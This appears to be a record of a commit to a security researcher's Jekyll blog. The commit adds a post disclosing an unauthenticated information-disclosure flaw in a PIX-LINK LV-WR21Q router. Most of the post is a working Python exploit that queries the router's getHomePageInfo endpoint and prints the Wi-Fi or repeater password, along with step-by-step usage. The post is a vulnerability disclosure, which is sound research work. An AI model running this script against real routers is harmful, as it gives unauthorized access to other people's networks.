

Before and after one commit to 0xmupa/0xmupa.github.io, a Jekyll site: the page built from _pages/tag-archive.md, in a window 1280 px wide and 900 px high. Shown: the top 858 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; part of the change alters nothing that is shown.

Commit message:
Post CVE Pix Link

````diff
--- /dev/null
+++ b/_posts/2024-05-08-pixlink-info-disclosure.md
@@ -0,0 +1,86 @@
+---
+layout: single
+excerpt: "I found a way to get the password of the wifi router when it's in normal mode or repeater mode without authenticating on the router gateway"
+date: 2024-05-08
+classes: wide
+header:
+  teaser: /assets/images/pix_link_cve/PIX-LINK.png
+  teaser_home_page: true
+  icon: #/assets/images/hackthebox.webp
+categories:
+  - CVE
+tags:
+  - Routers
+
+---
+Info:
+- Product: PIX-LINK
+- Model: LV-WR21Q
+- Firmware Version: V109_109
+- Vulnerability: Information Disclosure
+- Impact: <strong>Unauthorized Access to Wifi</strong>.
+- Author: Red Team - Miguel Alves (@0xmupa), Fabrício Oliveira (xf5), Sérgio Charruadas
+
+Hello friend, today I'm showing you an Information Disclosure fault in a PIX-LINK router.
+
+First of all, you need to know that this fault will only be executed if you have cable access to the router or if the router Gateway is connected to the Internet. <br />
+Ps: It also works via wifi but what's the point of knowing the wifi password when you're already connected to it? hehehe.
+
+Firmware Version:
+![](/assets/images/pix_link_cve/firmware_version.png)
+
+PoC:
+
+1. Configure a router for ap (wifi) or repeater mode in the router gateway.
+2. Run The Python Exploit below with the parameter wifi_password for AP configuration or repeater_password for Repeater configuration.
+3. You'll have a password.
+
+```
+import requests
+import sys
+
+def make_request(host, endpoint):
+    endpoints = {
+        "wifi_password": "wifiBasicCfg",
+        "repeater_password": "wifiRelay"
+    }
+
+    if endpoint not in endpoints:
+        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
+        return
+
+    url = f"http://{host}/goform/getHomePageInfo?modules={endpoints[endpoint]}"
+
+    try:
+        response = requests.get(url)
+        response.raise_for_status()
+
+        print("Response:\n")
+        print(response.text)
+
+        password_key = 'wifiPwd' if endpoint == 'wifi_password' else 'wifiRelayPwd'
+        password = response.json()[endpoints[endpoint]][password_key]
+        print(f"\nPassword: {password}")
+    except requests.exceptions.RequestException as e:
+        print("Request failed:", e)
+
+def main():
+    if len(sys.argv) != 3:
+        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
+        return
+
+    host, endpoint = sys.argv[1], sys.argv[2]
+    make_request(host, endpoint)
+
+if __name__ == "__main__":
+    main()
+```
+
+The exploit is very simple, in a nutshell, it will look for the Host/IP and what information we want to access from the shell parameter, then it will look for the endpoint of the API that is destined to return that information and it will give us the answer.
+
+[POC Video](https://youtu.be/EcXSO12Oe0Q).
+
+
+<strong>I wanted to save the world.</strong>
+
+- Elliot Alderson
````
Also changed, not shown: _posts/2024-05-01-first-post.md (line endings or trailing spaces), assets/images/pix_link_cve/PIX-LINK.png (added), assets/images/pix_link_cve/firmware_version.png (added).
